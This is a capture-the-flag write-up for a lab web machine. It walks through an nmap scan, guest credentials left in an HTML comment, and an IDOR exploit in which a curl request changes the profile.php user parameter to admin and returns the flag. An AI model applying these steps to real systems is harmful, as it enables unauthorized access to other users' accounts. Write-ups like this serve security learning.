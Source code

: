 # IP
10.10.100.159

# Enumeration

## Nmap
Found two ports running on the machine.
```console
❯ nmap -sC -sV --min-rate=700 10.10.100.159 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-12 10:57 IST
Nmap scan report for 10.10.100.159
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 16:95:5e:6c:b5:20:ea:7f:48:05:66:7f:e2:87:dd:2d (RSA)
|   256 32:c0:4b:50:42:07:42:44:75:cb:73:0a:fe:45:af:d0 (ECDSA)
|_  256 17:6a:e9:69:e7:70:c7:7d:91:fc:7f:33:6d:7a:75:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.53 ((Debian))
|_http-server-header: Apache/2.4.53 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```

## Web
- On going two website it prompts with a login screen.
- It says that if we don't have an account we can use a guest account.

```html
<p>Don't have an account? Use the guest account! (<code>Ctrl+U</code>)</p>
<!-- use guest:guest credentials until registration is fixed -->
```

# Exploitaion
## Insecure Direct Object Reference (IDOR)
- When logged in with guest credential it redirects us to `http://10.10.100.159/profile.php?user=guest`
- Change user parameter to admin and voila! got the flag

```console
❯ curl  http://10.10.100.159/profile.php\?user\=admin   --cookie PHPSESSID=72a7718d9612f8f6eabea832164def20

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>
    <!-- admin account could be vulnerable, need to update -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
<body>
    <h1 class="my-5">Hi, <b>admin</b>. Welcome to your site. The flag is: flag{**REDACTED**}</h1>
    <p>
        <a href="logout.php" class="btn btn-danger ml-3">Sign Out of Your Account</a>
    </p>
</body>
</html>
```
- The bug seems to be related to PHPSESSID cookie, the PHP in backend authenticates PHPSESSID, but does not authenticate it with the username 
